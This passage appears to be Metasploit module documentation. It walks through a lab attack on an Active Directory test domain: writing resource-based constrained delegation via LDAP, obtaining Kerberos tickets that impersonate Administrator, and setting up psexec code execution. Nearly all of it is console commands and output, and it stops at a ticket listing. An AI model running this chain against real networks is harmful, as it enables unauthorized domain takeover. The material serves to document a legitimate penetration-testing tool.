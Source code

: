 - Setup RBCD with the `admin/ldap/rbcd` module using the LDAP session

```
msf6 auxiliary(admin/ldap/rbcd) > run verbose=true rhost=192.168.232.110 session=1 delegate_to=VICTIM action=READ
[*] Running module against 192.168.232.110
[+] Successfully bound to the LDAP server via existing SESSION!
[*] Discovering base DN automatically
[*] The msDS-AllowedToActOnBehalfOfOtherIdentity field is empty.
[*] Auxiliary module execution completed

msf6 auxiliary(admin/ldap/rbcd) > run verbose=true rhost=192.168.232.110 session=1 delegate_to=VICTIM action=WRITE delegate_from=FAKE01$
[*] Running module against 192.168.232.110
[+] Successfully bound to the LDAP server via existing SESSION!
[*] Discovering base DN automatically
[+] Successfully created the msDS-AllowedToActOnBehalfOfOtherIdentity attribute.
[*] Added account:
[*]   S-1-5-21-3065298949-3337206023-618530601-1618 (FAKE01$)
[*] Auxiliary module execution completed

msf6 auxiliary(admin/ldap/rbcd) > run verbose=true rhost=192.168.232.110 session=1 delegate_to=VICTIM action=READ
[*] Running module against 192.168.232.110
[+] Successfully bound to the LDAP server via existing SESSION!
[*] Discovering base DN automatically
[*] Allowed accounts:
[*]   S-1-5-21-3065298949-3337206023-618530601-1618 (FAKE01$)
[*] Auxiliary module execution completed
```

- Getting the Kerberos tickets using the `admin/kerberos/get_ticket` module

```
msf6 auxiliary(admin/kerberos/get_ticket) > run action=GET_TGS rhost=192.168.232.110 username=FAKE01 password=123456 domain=newlab.local spn=cifs/VICTIM.newlab.local impersonate=Administrator
[*] Running module against 192.168.232.110
[+] 192.168.232.110:88 - Received a valid TGT-Response
[*] 192.168.232.110:88 - TGT MIT Credential Cache ticket saved to /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_759601.bin
[*] 192.168.232.110:88 - Getting TGS impersonating Administrator@newlab.local (SPN: cifs/VICTIM.newlab.local)
[+] 192.168.232.110:88 - Received a valid TGS-Response
[*] 192.168.232.110:88 - TGS MIT Credential Cache ticket saved to /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_975187.bin
[+] 192.168.232.110:88 - Received a valid TGS-Response
[*] 192.168.232.110:88 - TGS MIT Credential Cache ticket saved to /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_335229.bin
[*] Auxiliary module execution completed
```

- Code execution using the `windows/smb/psexec` module

```
msf6 exploit(windows/smb/psexec) > klist
Kerberos Cache
==============
id   host             principal                   sname                                        enctype  issued                     status  path
--   ----             ---------                   -----                                        -------  ------                     ------  ----
105  192.168.232.110  FAKE01@NEWLAB.LOCAL         krbtgt/NEWLAB.LOCAL@NEWLAB.LOCAL             AES256   2025-01-23 19:29:59 +0100  active  /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_759601.bin
106  192.168.232.110  Administrator@NEWLAB.LOCAL  FAKE01@NEWLAB.LOCAL                          AES256   2025-01-23 19:29:59 +0100  active  /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_975187.bin
```